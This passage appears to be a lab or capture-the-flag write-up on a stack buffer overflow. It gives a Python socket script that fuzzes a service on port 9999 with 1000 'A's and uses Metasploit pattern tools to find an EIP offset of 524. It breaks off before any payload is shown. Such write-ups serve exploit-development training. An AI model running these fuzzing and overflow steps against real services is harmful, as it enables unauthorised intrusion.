 ## Fuzzing

Let's make script to cause a buffer overflow in the application

```python
#!/usr/bin/python

import socket

host = "192.168.0.113"
port = 9999

buffer = "A" * 1000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.recv(1024)
s.send(buffer)
s.recv(1024)

print "[+] Buffer sent!"

s.close()
```

<img src="https://i.imgur.com/P8ILF7m.png"/>

## Finding the offset
<img src="https://i.imgur.com/LZaXpyF.png"/>

We can see the `EIP` register having the value 414141 which are just bunch of A's, we need to find exaclty where the application crashed for that we need to know the offset so we can control the EIP to go to next instruction to execute commands and in order to find that we can generate a random pattern of strings using `msf-pattern_create`

<img src="https://i.imgur.com/X4qtyAp.png"/>

Replace these strings with the A's in the script

<img src="https://i.imgur.com/WeOvnyP.png"/>

After running this script, the EIP is going to hold a different value which is `35724134`

<img src="https://i.imgur.com/nANUO8E.png"/>

Using `msf-pattern-offset` we can identify the offset by providing the EIP value 

<img src="https://i.imgur.com/Cpf2GVt.png"/>

We now know that if we send the input `A * 524` it will cause an overflow,  let's try to overwrite the EIP with 4 D's to see if we can control EIP with any value we want 
